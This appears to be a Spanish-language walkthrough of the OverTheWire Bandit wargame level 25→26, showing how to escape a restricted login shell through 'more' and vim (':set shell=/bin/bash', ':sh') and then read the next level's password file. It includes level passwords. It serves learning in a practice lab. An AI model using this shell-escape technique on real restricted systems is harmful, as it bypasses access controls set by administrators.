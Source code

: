 ## Objetivo 

Iniciar sesión en bandit26 desde bandit25 debería ser bastante fácil... El shell para el usuario bandit26 no es /bin/bash, sino algo más. Descubra qué es, cómo funciona y cómo salir de él.

## Datos de acceso al nivel

user bandit25
pass p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
## Solucion


```

bandit25@bandit:~$ ls -l
total 4
-r-------- 1 bandit25 bandit25 1679 Oct  5 06:19 bandit26.sshkey
bandit25@bandit:~$ 
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat :/usr/bin/showtext
cat: ':/usr/bin/showtext': No such file or directory
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0


  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
:set shell=/bin/bash
:sh
bandit26@bandit:~$ id
uid=11026(bandit26) gid=11026(bandit26) groups=11026(bandit26)
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
bandit26@bandit:~$ 


```


## Notas adicionales

Cada usuario tiene un shell predeterminado de usuario. Esto es especialmente importante cuando se utiliza ssh, porque este es el shell que se mostrará. La información sobre qué shell es el predeterminado para un usuario se puede encontrar al final de la línea del usuario en el archivo '/etc/passwd'.

more -> es un comando de shell que permite la visualización de archivos en modo interactivo. Específicamente, este modo interactivo solo funciona cuando el contenido del archivo es demasiado grande para mostrarse por completo en la ventana del terminal. Un comando permitido en el modo interactivo es v. Este comando abrirá el archivo en el editor "vim".

Vim es un editor de texto. También le permite ejecutar comandos de shell. Es posible utilizar vim para salir de un entorno restringido y generar un caparazón. Para generar el shell predeterminado del usuario, se utiliza el comando :shell. Para cambiar el shell a '/bin/bash', el comando es: set shell=/bin/bash.

## Referencias 

https://www.neoguias.com/comando-more-linux/
